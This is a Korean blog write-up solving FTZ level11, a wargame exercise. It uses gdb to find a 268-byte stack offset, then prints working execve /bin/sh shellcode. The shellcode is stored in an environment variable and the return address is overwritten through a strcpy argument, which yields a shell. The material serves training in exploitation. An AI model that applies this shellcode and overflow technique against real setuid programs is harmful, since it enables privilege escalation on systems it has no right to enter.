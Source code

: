 ```yaml
---
layout: post
title:  "FTZ level11"
date:   2020-09-04 13:27
categories: blog
---
```


FTZ level11 를 풀어보겠다.

![cat](/blog_img/ftz11_cat.png)

```shell
[level11@ftz level11]$cat hint
```
##### cat [OPTION] [FILE]
##### cat - 파일 이름으로 인자받아 이어주는 명령어

먼저 해당 c언어가 컴파일된것이 attackme 파일인걸로 추정한다 

![run](/blog_img/level11_run.png)

attackme 파일을 실행하면은 hint에 있는 c 언어로 작성된 코드와 똑같이 작동합니다.

그러면은 이제 attackme 를 분석하기위해 gdb 명령어를 사용하여 디버깅을 해봐야겠다.

```shell
$gdb attackme

(gdb) set disas intel
(gdb) disas main
```

![gdb](/blog_img/ftz_level11_gdb.png)

<main+3>: sub   esp,0x108
이라는것이 보이는데 0x108 은 C 언어 코드에서 char str[256]; 이나 마찬가지다 
즉 256 만큼 배열되는것에서 +8 쓰레기 값이 붙어서 264 만큼의 값이 있는것이고

BOF(버퍼오버플로우)를 하게된다면 자주 접하는게 ret sfp 가 있다 여기에서 제일 중요한것은 sfp(스텍 베이스) 값을 뜻한다.
sfp 는 스택 주소값을 계산할깨 스택값 바닥 프레임 포인터 값을 저장하는것이라고 하는데 이 크기는 4바이트이므로 

bof 를 내기위해서는 108 + sfp 크기 인 268 만큼의 입력을 한 다음 쉘코드를 실행하면 된다.

```shell
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80
```

해당 쉘 코드로 환경변수를 이용하여 bof 를 해야된다.

먼저 linux 에서 환경 변수 등록 명령어는 export 이다.

```shell
export EGG=`python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\xb0\x01\xcd\x80"'` 
```

와 같이 입력을 한 다음 해당 환경변수를 불러오기 위해 c언어로 해당 변수를 불러오는 주소를 알아오자

```
#include <stdio.h>
int main(){
    printf("print : %x\n",getenv("EGG"));
    return 0;
}
```
이런식으로 getenv 함수를 이용해서 주소값을 출력하면은 

![buff](/blog_img/buffx.png)

이렇게 주소값이 16진수로 나오게 된다.

*해당 주소값은 사람마다 다 다를수있으니 따라서 하면 안된다. 

그러면은 이 다양한 기능들을 이용해서 bof 를 수행하기 위해 python -c 를 넘기는 경우가 많다

어떠한 파일이 test 가 있다고 한다면

./test `python -c 'print "hello"'`
- test 파일에서 인자로 넘긴다.

(python -c 'print "hello"';cat) | ./test
- test 파일에서 실행중 중간에 입력이 된다.

우리가 해야될것은 1번째인 인자로 넘겨야된다.

이제 attackme 파일에서 argv[1] 로 strcpy 를 사용하기떄문에

명령어를 입력하여 하고싶다면은 

```shell
./attackme `python -c 'print "A"*268+"\x22\xfc\xff\xbf"'`
```

16진수로 나온 환경 변수 주소값을 거꾸로 해서 입력해야된다.

입력하고 my-pass 를 해야된다.

password:it is like this
